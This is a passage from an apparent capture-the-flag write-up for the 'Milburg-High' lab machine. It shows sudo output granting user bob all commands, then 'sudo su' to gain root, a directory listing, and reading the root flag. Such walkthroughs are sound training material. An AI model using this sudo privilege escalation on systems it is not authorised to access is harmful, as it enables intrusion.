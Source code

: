 ```bash

User bob may run the following commands on Milburg-High:
    (ALL : ALL) ALL
```
Since we can sudo anything, we are able to switch user to root and change the working directory to the root directory.
```bash
bob@Milburg-High:~/Documents$ sudo su
sudo: unable to resolve host Milburg-High
root@Milburg-High:/home/bob/Documents# ls /root
```
Now we should look if the root flag is here.

```bash
root@Milburg-High:/# ls -la
total 88
drwxr-xr-x  22 root root  4096 Mar  5  2018 .
drwxr-xr-x  22 root root  4096 Mar  5  2018 ..
drwxr-xr-x   2 root root  4096 Feb 21  2018 bin
drwxr-xr-x   3 root root  4096 Feb 21  2018 boot
drwxr-xr-x  18 root root  3040 Sep 25 14:04 dev
drwxr-xr-x 114 root root  4096 Sep 25 14:04 etc
-rw-------   1 root root   335 Mar  5  2018 flag.txt
drwxr-xr-x   6 root root  4096 Mar  4  2018 home
lrwxrwxrwx   1 root root    29 Feb 21  2018 initrd.img -> boot/initrd.img-4.9.0-4-amd64
lrwxrwxrwx   1 root root    29 Feb 21  2018 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
drwxr-xr-x  15 root root  4096 Feb 21  2018 lib
drwxr-xr-x   2 root root  4096 Feb 21  2018 lib64
drwx------   2 root root 16384 Feb 21  2018 lost+found
drwxr-xr-x   3 root root  4096 Feb 21  2018 media
drwxr-xr-x   2 root root  4096 Feb 21  2018 mnt
drwxr-xr-x   2 root root  4096 Feb 21  2018 opt
dr-xr-xr-x 114 root root     0 Sep 25 14:04 proc
drwx------  16 root root  4096 Feb 28  2018 root
drwxr-xr-x  23 root root   680 Sep 26 14:18 run
drwxr-xr-x   2 root root  4096 Feb 21  2018 sbin
drwxr-xr-x   3 root root  4096 Mar  4  2018 srv
dr-xr-xr-x  13 root root     0 Sep 25 14:04 sys
drwxrwxrwt  11 root root  4096 Sep 26 15:09 tmp
drwxr-xr-x  10 root root  4096 Feb 21  2018 usr
drwxr-xr-x  12 root root  4096 Feb 28  2018 var
lrwxrwxrwx   1 root root    26 Feb 21  2018 vmlinuz -> boot/vmlinuz-4.9.0-4-amd64
lrwxrwxrwx   1 root root    26 Feb 21  2018 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
```

The final step, let's capture the flag!
``` bash
root@Milburg-High:/# cat flag.txt 
CONGRATS ON GAINING ROOT

        .-.
       (   )
        |~|       _.--._
        |~|~:'--~'      |
        | | :   #root   |
        | | :     _.--._|
        |~|~`'--~'
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
```